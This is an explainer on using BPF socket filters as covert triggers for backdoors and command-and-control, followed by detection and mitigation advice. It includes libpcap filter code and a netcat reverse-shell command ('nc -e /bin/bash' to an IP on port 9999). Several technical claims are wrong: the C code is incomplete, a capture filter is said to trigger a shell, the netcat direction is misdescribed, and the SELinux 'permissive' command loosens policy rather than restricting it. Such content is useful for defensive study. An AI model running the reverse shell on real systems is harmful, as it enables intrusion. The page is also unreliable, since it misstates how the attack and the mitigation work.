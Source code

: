 ```yaml
---
title: Traffic Signaling:- Socket Filters in C2
category: Persistence
tags: [Traffic Signaling (T1205.001)]
---
```


Socket filters provide a mechanism at the kernel level for filtering, managing, and controlling network traffic. By using these filters, network administrators, security software, and even adversaries can craft controlled network communication pathways by selectively allowing or blocking traffic based on specific criteria.

Socket filters operate by attaching filters—typically using the **Berkeley Packet Filter (BPF)**—to network sockets. This enables the system to inspect, modify, and selectively process data packets as they flow through. With this setup, socket filters can analyze packet headers, payloads, and metadata, enabling decisions based on factors like IP addresses, port numbers, and protocols.

## Socket Filters for Backdoor Activation
#### **Initial Compromise and Filter Setup**

Once an adversary compromises a system, they may seek to maintain persistence through a covert backdoor or C&C channel. To do this, they can attach a custom socket filter to the network interface using tools like **libpcap** or **Winpcap** (Windows), or by directly using **setsockopt** with the **SO_ATTACH_FILTER** option. This socket filter allows the adversary to selectively monitor and intercept network traffic to and from the compromised system.

***Example:*** an adversary may install a filter on **eth0** (the primary network interface) to monitor TCP traffic on a specific port (e.g. 9999), which they’ll later use to communicate with a reverse shell or to send commands.

    // C code using libpcap to set a filter on port 9999 for reverse shell activation
    #include <pcap.h>
    #include <stdio.h>
    
    int main() {
        char errbuf[PCAP_ERRBUF_SIZE];
        pcap_t *handle;
    
        // Open the device for packet capture
        handle = pcap_open_live("eth0", BUFSIZ, 1, 1000, errbuf);
        if (handle == NULL) {
            fprintf(stderr, "Error opening device: %s\n", errbuf);
            return 1;
        }
    
        // Set the packet filter to capture only TCP traffic on port 9999
        struct bpf_program fp;
        char filter_exp[] = "tcp port 9999";  // Custom filter for reverse shell traffic
        if (pcap_compile(handle, &fp, filter_exp, 0, PCAP_NETMASK_UNKNOWN) == -1) {
            fprintf(stderr, "Error compiling filter\n");
            return 1;
        }
    
        if (pcap_setfilter(handle, &fp) == -1) {
            fprintf(stderr, "Error setting filter\n");
            return 1;
        }
    
        // Start capturing packets
        pcap_loop(handle, 0, packet_handler, NULL);
    
        pcap_close(handle);
        return 0;
    }

This code uses **libpcap** to set a filter that monitors for TCP packets on port 9999. The adversary could tailor the filter to match specific conditions, ensuring that only traffic related to their backdoor is processed. Once the filter is set, no immediate actions will be visible, which makes detection harder.

#### **2. Sending Crafted Packets to Trigger Reverse Shell**

Once the filter is active, the adversary can send a specially crafted packet to the compromised system that matches the filter criteria (i.e., TCP traffic on port 9999). This packet would not just match the filter but also trigger a **reverse shell** or **command invocation** based on the filter's configured actions.

For instance, using **netcat** or another tool, the attacker may initiate a reverse shell connection through the specified port:

`# Attacker's machine sends a reverse shell connection to port 9999 on the target
nc -e /bin/bash 192.168.1.100 9999` 

This command establishes a reverse shell to the attacker's machine, and since the filter is set to listen on port 9999, it will trigger the reverse shell activation when the packet is received.

#### **3. Triggering Command Shell or Implant Installation**

In this example, the filter could be used to trigger additional actions, such as:

-   **Installing a backdoor** or **implant** on the system.
-   **Command and control (C&C)**: Using the reverse shell to send further commands, enabling remote manipulation of the system.

The filter could be crafted to not just passively monitor traffic but to activate certain system features when certain types of packets are detected. This makes the attack highly stealthy, as there is minimal traffic to attract attention, and the filter's actions are only triggered under specific conditions.

#### **4. Evasion and Low Detection Risk**

Since the socket filter is designed to operate with minimal system overhead, its activity is difficult to detect. It is typically lightweight and does not involve complex processes that could raise suspicion. Additionally, because the socket connection is not activated until the filter receives a matching packet, there is limited activity on the host, making it hard to identify the attack.

The lack of visible network activity and the use of low-overhead socket operations mean that traditional network monitoring tools or IDS systems that rely on frequent traffic inspection may fail to detect the exfiltration or reverse shell activation.

### **Detection and Mitigation Techniques**

#### **A. Monitoring and Auditing Network Interfaces**

To detect the use of socket filters for covert backdoor activations, network administrators can monitor for suspicious BPF programs or unusual socket activity. Tools like **bpftool** can list active BPF programs attached to network interfaces, which can help identify abnormal or unauthorized filters.


**Check for BPF programs attached to network interfaces**
`sudo bpftool prog show` 

This can identify any filters that have been installed on the system, such as those attached to port 9999 for reverse shell activation.

#### **B. Inspecting Network Traffic**

Adversary-driven packet filters often utilize hidden or non-standard ports for command and control. By analyzing network traffic for deviations from normal patterns—such as traffic on uncommon ports or with unusual packet characteristics—defenders can identify potential exfiltration or C&C activity.

For example, using **tcpdump** to capture traffic on port 9999 can help detect attempts to trigger backdoors or implants.


***Capturing traffic on port 9999***
`sudo tcpdump -i eth0 port 9999`

#### **C. Kernel Auditing and System Integrity Checks**

Monitoring the integrity of the system kernel can help detect unauthorized filter installation. Using kernel auditing tools like **auditd** and monitoring for the loading of suspicious BPF programs or network-related system calls can provide early warning signs of an attack.

#### **D. Restricting Socket Filter Usage**

Restricting access to the ability to attach socket filters can help prevent adversaries from deploying them. Using system hardening techniques, such as configuring **SELinux** or **AppArmor**, can limit access to the relevant system calls or BPF functionalities.

***SELinux policy to restrict BPF program usage***

`semanage permissive -a bpfilter_t` 

#### **E. EDR**

Advanced EDR tools can help detect unusual processes and activities associated with backdoor activation, such as the sudden spawning of reverse shells or unusual socket connections. By correlating event logs and monitoring for anomalous behavior, defenders can identify and respond to attacks more effectively.

### **Conclusion**

The use of socket filters for covert backdoor activation and command and control is a powerful evasion technique used by adversaries. By exploiting ***libpcap*** or ***Winpcap***, attackers can create custom filters that monitor specific traffic and trigger malicious actions, such as reverse shells or implant installations, when certain criteria are met. Defenders must be vigilant in monitoring network interfaces, analyzing traffic patterns, and implementing security measures to detect and mitigate such attacks before they can cause damage.

